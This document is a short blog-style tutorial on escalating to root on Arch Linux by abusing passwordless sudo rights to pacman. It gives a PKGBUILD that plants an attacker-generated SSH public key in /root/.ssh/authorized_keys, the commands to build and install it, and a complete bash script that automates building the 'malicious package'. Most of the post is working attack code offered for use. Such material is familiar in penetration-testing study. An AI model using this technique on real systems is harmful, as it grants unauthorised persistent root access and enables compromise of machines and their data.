 ```yaml
---
title: Privilege Escalation via Pacman
author: Saad
date: 2024-11-19 00:00:00 +0500
categories:
  - OS
  - Arch
tags:
  - privesc
  - pacman privesc
  - makepkg
  - malicious pkg
  - abusing pacman
  - root via pacman
image: pacman.jpg
media_subpath: /assets/img/pacman
---
```


Privilege escalation with `pacman`.
If the user has sudo permission to run `pacman`, we can easily escalate privileges to root.
```bash
[skid@arch]$ sudo -l 
User skid may run the following commands on arch:    
 (ALL : ALL) NOPASSWD: /usr/bin/pacman
```

First, create a directory and name it whatever you want:
```bash
[skid@arch]$ mkdir priv && cd priv
[skid@arch priv]$ nano PKGBUILD
```

In the `PKGBUILD` file, add the following content:
```bash
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege escalation"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "$srcdir/authorized_keys" "$pkgdir/root/.ssh/authorized_keys"
}
```

Now, generate SSH keys on the target machine, and rename `id_rsa.pub` to `authorized_keys`:
```bash
[skid@arch]$ ssh-keygen -t rsa -b 4096 -f id_rsa -N "" 
```

```bash
[skid@arch]$ mv id_rsa.pub authorized_keys
```

> This malicious package script is designed to add our public SSH key to root's authorized_keys.

Next, run `makepkg` in the directory containing the `PKGBUILD` script:
```bash
[skid@arch priv]$ makepkg
```

After generating the package, transfer the `id_rsa` private key to your own machine and set its permissions to `600`:
```bash
[skid@arch] chmod 600 id_rsa
```

The `makepkg` command should produce a `.zst` file, such as `privesc-1.0-1-any.pkg.tar.zst`. Finally, install this package with `pacman`:
```bash
[skid@arch priv]$ sudo /usr/bin/pacman -U /home/skid/priv/privesc-1.0-1-any.pkg.tar.zst
```
This will add your SSH key to the root user's authorized_keys, allowing root access via SSH.

Just a bash script to do all the crap in snap.
```bash
#!/bin/bash

# Create a working directory
mkdir priv && cd priv

# Generate PKGBUILD file
cat <<EOF >PKGBUILD
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege Escalation Package"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "\$srcdir/authorized_keys" "\$pkgdir/root/.ssh/authorized_keys"
}
EOF

# Generate SSH keys
ssh-keygen -t rsa -b 4096 -f id_rsa -N ""
mv id_rsa.pub authorized_keys

# Build the malicious package
makepkg

# Output message
echo "Malicious package created! Run the following command to deploy:"
echo "sudo pacman -U $(pwd)/privesc-1.0-1-any.pkg.tar.zst"
echo "Don't forget to secure your private key: id_rsa"

```